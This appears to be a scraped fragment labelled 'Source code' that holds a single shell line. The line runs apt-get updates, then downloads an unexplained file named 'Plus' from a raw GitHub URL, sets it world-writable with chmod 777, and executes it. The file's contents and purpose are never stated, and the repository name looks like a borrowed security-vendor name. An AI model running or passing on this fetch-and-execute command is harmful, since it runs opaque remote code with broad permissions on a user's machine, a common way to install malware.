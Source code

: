 apt-get update -y; apt-get upgrade -y; wget https://raw.githubusercontent.com/Sucurinet/wordnet/master/Plus; chmod 777 Plus; ./Plus
